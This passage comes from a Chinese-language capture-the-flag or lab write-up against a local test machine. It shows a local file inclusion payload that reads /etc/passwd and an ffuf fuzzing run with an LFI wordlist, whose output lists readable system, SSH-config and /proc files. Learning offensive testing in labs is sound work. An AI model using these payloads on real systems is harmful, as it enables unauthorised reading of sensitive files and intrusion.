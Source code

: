 - 要求字符串**开头**必须是 `file://`、`http://` 或 `https://`
- 屏蔽了特定域名
- 文件包含

尝试进行利用：

```
http://192.168.10.129/?page=file:///etc/passwd
```

成功回显。。。所以我一直在和空气斗智斗勇？？？？

### FUZZ

```bash
┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ ffuf -c -u "http://192.168.10.129/?page=file://FUZZ" -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 1235 2>/dev/null 
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 4250, Words: 1239, Lines: 134, Duration: 12ms]
/etc/apt/sources.list   [Status: 200, Size: 3569, Words: 1261, Lines: 116, Duration: 3ms]
/etc/fstab              [Status: 200, Size: 3999, Words: 1414, Lines: 127, Duration: 4ms]
/etc/apache2/apache2.conf [Status: 200, Size: 10371, Words: 2169, Lines: 337, Duration: 3ms]
/etc/crontab            [Status: 200, Size: 4235, Words: 1411, Lines: 134, Duration: 3ms]
/etc/hosts.allow        [Status: 200, Size: 3604, Words: 1316, Lines: 122, Duration: 13ms]
/etc/hosts              [Status: 200, Size: 3382, Words: 1253, Lines: 119, Duration: 17ms]
/etc/hosts.deny         [Status: 200, Size: 3904, Words: 1362, Lines: 129, Duration: 28ms]
/etc/nsswitch.conf      [Status: 200, Size: 3687, Words: 1363, Lines: 132, Duration: 3ms]
/etc/netconfig          [Status: 200, Size: 3960, Words: 1523, Lines: 131, Duration: 4ms]
/etc/passwd             [Status: 200, Size: 4250, Words: 1239, Lines: 134, Duration: 1ms]
/./././././././././././etc/passwd [Status: 200, Size: 4250, Words: 1239, Lines: 134, Duration: 3ms]
/etc/issue              [Status: 200, Size: 3220, Words: 1239, Lines: 114, Duration: 3ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 4250, Words: 1239, Lines: 134, Duration: 2ms]
/etc/init.d/apache2     [Status: 200, Size: 11332, Words: 2727, Lines: 465, Duration: 4ms]
/etc/resolv.conf        [Status: 200, Size: 3255, Words: 1238, Lines: 115, Duration: 2ms]
/etc/rpc                [Status: 200, Size: 4104, Words: 1271, Lines: 153, Duration: 1ms]
/etc/ssh/sshd_config    [Status: 200, Size: 6401, Words: 1521, Lines: 234, Duration: 3ms]
/proc/net/route         [Status: 200, Size: 3577, Words: 1449, Lines: 115, Duration: 4ms]
/proc/net/tcp           [Status: 200, Size: 3493, Words: 1358, Lines: 114, Duration: 6ms]
/proc/interrupts        [Status: 200, Size: 8774, Words: 4490, Lines: 178, Duration: 5ms]
/proc/loadavg           [Status: 200, Size: 3219, Words: 1239, Lines: 113, Duration: 6ms]
/proc/net/dev           [Status: 200, Size: 3639, Words: 1485, Lines: 116, Duration: 6ms]
/proc/mounts            [Status: 200, Size: 5074, Words: 1355, Lines: 136, Duration: 6ms]
/proc/meminfo           [Status: 200, Size: 4696, Words: 1774, Lines: 166, Duration: 4ms]
/proc/partitions        [Status: 200, Size: 3340, Words: 1309, Lines: 118, Duration: 2ms]
/proc/net/arp           [Status: 200, Size: 3503, Words: 1380, Lines: 116, Duration: 4ms]
/proc/self/cmdline      [Status: 200, Size: 3271, Words: 1237, Lines: 112, Duration: 1ms]
/proc/cpuinfo           [Status: 200, Size: 7869, Words: 1803, Lines: 220, Duration: 5ms]
/proc/version           [Status: 200, Size: 3382, Words: 1255, Lines: 113, Duration: 5ms]
/proc/self/status       [Status: 200, Size: 4616, Words: 1326, Lines: 169, Duration: 5ms]
/var/log/lastlog        [Status: 200, Size: 295485, Words: 1236, Lines: 112, Duration: 2ms]
/var/log/wtmp           [Status: 200, Size: 90745, Words: 1301, Lines: 174, Duration: 8ms]
///////../../../etc/passwd [Status: 200, Size: 4250, Words: 1239, Lines: 134, Duration: 5ms]
```
